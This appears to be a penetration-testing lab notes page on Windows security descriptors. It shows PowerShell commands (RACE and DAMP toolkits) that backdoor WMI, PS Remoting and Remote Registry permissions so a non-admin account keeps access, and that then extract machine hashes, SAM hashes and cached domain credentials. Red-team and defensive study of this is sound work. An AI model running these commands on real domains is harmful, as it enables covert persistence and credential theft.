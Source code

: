 # Security Descriptors

## Format

Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor.

{% tabs %}
{% tab title="Syntax" %}
`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
{% endtab %}
{% endtabs %}

Detailed docs about SDDL:

{% embed url="https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings" %}

## Exploitation

Once we have administrator privileges it is possible to create a backdoor by modifying Security Descriptors like Owner, primary group, DACL and SACL of multiple remote access methods to allow access to non-admin users.

### WMI - GUI

It is possible to add the non-admin user to the ACE using the `Component Services` and `Computer Management`.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Component Services</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

Apply to all namespaces

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

<pre class="language-powershell"><code class="lang-powershell"><strong># Check if worked
</strong><strong># Worked if didn't get access denied 
</strong><strong>gwmi -class win32_operatingsystem -ComputerName &#x3C;dc_machine>
</strong></code></pre>

### WMI - PowerShell

ACE for built-in administrators for WMI namespaces `A;CI;CCDCLCSWRPWPRCWD;;;SID`

in order to get access to WMI namespaces attacker needs to create a new ACE with the `SID` to non-admin user which he controls.

ACLs can be modified to allow non-admin users using the [RACE toolkit](https://github.com/samratashok/RACE):

{% hint style="danger" %}
Require Domain Admin privileges
{% endhint %}

```powershell
# Loading the module
. C:\AD\Tools\RACE-master\RACE.ps1


Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# with explicit credentials
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# Remove
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose

```

PS Remoting (not stable after August 2020 patches)

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose

# Remove
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

### Remote Registry

**Reg backdoo**r using [DAMP](https://github.com/HarmJ0y/DAMP) Tool allows to non-admin user to retrieve the hash of the computer, the SAM and cached credentials in the computer:

```bash
# Modify ACE with admin privs
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# retrieve machine hash
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```
